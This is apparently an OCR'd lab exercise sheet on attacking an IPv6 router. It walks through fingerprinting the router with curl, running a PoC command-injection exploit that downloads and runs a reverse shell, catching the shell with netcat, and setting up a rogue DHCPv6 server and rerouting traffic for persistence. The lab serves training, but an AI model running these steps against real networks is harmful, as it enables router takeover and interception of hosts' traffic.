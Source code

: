 Instructions:

1.  Fingerprint the Web Service:
    *   Interact with the router's web interface to determine its make and model.
    *   Command: `curl -g -6 "http://[ROUTER_LL%eth0]:ROUTER_WEB_PORT/api/v1/system/version"`
    *   Finding: The curl command returns a JSON object. What is the router's model and software version? `ROUTER_VERSION` = `[DISCOVER THIS]`

2.  Research and Execute the Exploit:
    *   Your instructor has provided a proof-of-concept exploit for this specific router version. It exploits a command injection vulnerability in the SNMP configuration API.
    *   Command: `python3 cve-2024-xxxx_poc.py --rhost ROUTER_LL --rport ROUTER_WEB_PORT --lhost YOUR_IPV6 --lport 4444 --interface eth0`
    *   Success: This script should inject a command that downloads and executes a reverse shell payload back to your attacker VM.

3.  Establish a Reverse Shell:
    *   On your attacker VM, start a netcat listener on an IPv6 socket.
    *   Command: `sudo nc -6 -l -v -p 4444`
    *   Verification: You should receive a reverse shell connection from the router with root privileges.

Checkpoint: You have compromised the core network router, the most critical device on the segment.

## Phase 3: Persistence - Rogue DHCPv6 & RDNSS Poisoning

Goal: Become the authoritative source of truth for network configuration for all hosts, ensuring persistence even if the router is rebooted or reset.

Instructions:

1.  Install a Rogue DHCPv6 Server:
    *   On your attacker VM, install and configure the `wide-dhcpv6-server` package.
    *   Edit `/etc/wide-dhcpv6/dhcp6s.conf` to advertise your attacker VM as the default gateway and DNS server.
    
```text
option domain-name-servers YOUR_IPV6_GLOBAL;
interface eth0 {
    address-pool pool1 3600;
};
pool pool1 {
    range YOUR_SUBNET::1000 to YOUR_SUBNET::2000;
    allow unicast;
};
```

2.  Launch the Rogue Server:
    *   Start the DHCPv6 server to respond to client solicitations.
    *   Command: `sudo systemctl start wide-dhcpv6-server`

3.  Poison the Router's RA Messages:
    *   From your root shell on the compromised router, inject a malicious Route Advertisement (RA) that points to your attacker VM as a more preferred default router (lower priority).
    *   Router Command: `sudo ip -6 route add default via YOUR_IPV6_LINK_LOCAL dev eth0 metric 50`
